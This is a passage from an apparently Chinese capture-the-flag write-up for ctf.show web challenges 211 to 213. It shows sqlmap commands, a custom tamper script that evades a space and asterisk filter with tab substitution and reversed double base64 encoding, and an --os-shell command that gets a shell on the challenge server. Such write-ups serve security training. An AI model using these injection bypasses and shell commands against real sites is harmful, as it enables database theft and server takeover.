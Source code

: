 ```cobol
py3 .\sqlmap.py -u  "http://3c1128a5-dfc8-489c-b3bf-84088eaa013d.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://3c1128a5-dfc8-489c-b3bf-84088eaa013d.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3 
```

## web212 过滤/**/

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

这里过滤了 *  使用 %0a即可

```cobol
import base64
 
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    singleTimeWarnMessage("空格置换/**/、双写绕过select")
def tamper(payload,**kwargs):
    payload = payload.replace(" ",chr(0x09))
    payload = payload[::-1]
    payload1= base64.b64encode(payload.encode('utf-8')).decode('utf-8')
    payload1 = payload1[::-1]
    payload2= base64.b64encode(payload1.encode('utf-8')).decode('utf-8')
    return payload2
```

```cobol
py3 .\sqlmap.py -u  "http://d7c73c70-2752-4eed-ac26-07a630620009.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://d7c73c70-2752-4eed-ac26-07a630620009.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3 
```

这里我发现上面发送的message都没有修改 但是其实也无所谓 大家别在意就可以了

## web213  --os-shell

这里提示我们一键getshell 使用上题 的payload

```cobol
py3 .\sqlmap.py -u  "http://608b47c7-03a2-47b2-b35f-1f82b7872875.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://608b47c7-03a2-47b2-b35f-1f82b7872875.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3  --os-shell
```
